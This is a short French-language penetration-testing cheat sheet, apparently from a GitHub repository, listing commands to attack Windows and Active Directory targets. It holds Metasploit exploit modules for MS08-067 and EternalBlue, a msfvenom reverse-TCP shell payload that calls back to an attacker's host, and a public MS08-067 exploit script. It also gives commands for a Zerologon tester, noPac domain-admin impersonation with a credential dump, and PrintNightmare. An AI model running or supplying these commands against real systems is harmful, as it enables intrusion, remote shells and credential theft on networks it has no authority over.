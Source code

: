 # Reconnaissance

### Politique de mot de passe

_**Note :** nécessite une connexion locale sur une machine Windows_

```
net accounts
```

### Version de l'OS

```
cme <IP>
```

### Elévation de privilège locale

```
./winpeas.exe
```

### Vulnérabilités connues

#### MS08\_067

```
msf > use exploit/windows/smb/ms08_067_netapi

https://github.com/Agent-Tiro/HackTheBoxScripts/blob/master/Python3-MS08-067.py
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86
python3 Python3-MS08-067.py <IP> 1 445 #Changer l'OS cible en modifiant le '1'
```

#### MS17-010 (Eternal Blue)

```
nmap -v -p445 --script smb-vuln-ms17-010.nse
msf > use auxiliary/scanner/smb/smb_ms17_010
msf > use exploit/windows/smb/ms17_010_eternalblue
```

#### BlueKeep

```
msf > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```

#### Zerologon

```
python3 zerologon_tester.py <DC> <IP-DC>
```

#### Sam The Admin

```
python3 noPac.py <DOMAIN>/<USER>:'<PASSWORD>' -dc-ip <IP-DC> -dc-host <HOSTNAME-DC> --impersonate administrator -dump [-use-ldap]
```

#### PrintNightmare

```
python3 printnightmare.py -check '<DOMAIN>/<USER>:<PASSWORD>@<IP>
```
